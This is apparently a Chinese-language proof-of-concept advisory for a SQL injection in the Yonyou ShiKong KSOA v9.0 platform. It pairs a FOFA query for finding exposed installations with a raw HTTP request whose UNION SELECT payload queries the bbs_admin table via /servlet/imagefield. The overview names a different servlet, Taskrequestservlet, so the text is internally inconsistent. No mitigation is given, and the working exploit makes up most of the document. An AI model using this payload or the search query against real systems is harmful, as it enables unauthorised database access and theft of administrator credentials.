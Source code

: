 一、产品描述
用友时空KSOA是建立在SOA理念指导下研发的新一代产品，是根据流通企业最前沿的I需求推出的统一的IT基础架构，它可以让流通企业各个时期建立的IT系统之间彼此轻松对话，帮助流通企业保护原有的IT投资，简化IT管理，提升竞争能力，确保企业整体的战略目标以及创新活动的实现。
二、漏洞概述
用友时空KSOA平台Taskrequestservlet处存在SQL注入。

三、影响范围
用友时空企业信息融通平台KSOA v9.0

fofa: app="用友-时空KSOA"
```
GET
/servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=-1'+union+select+sys.fn_varbintohexstr(hashbytes('md5','test'))-
-+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,
like Gecko) 5bGx5rW35LmL5YWz
Accept-Encoding: gzip, deflate
Connection:
```

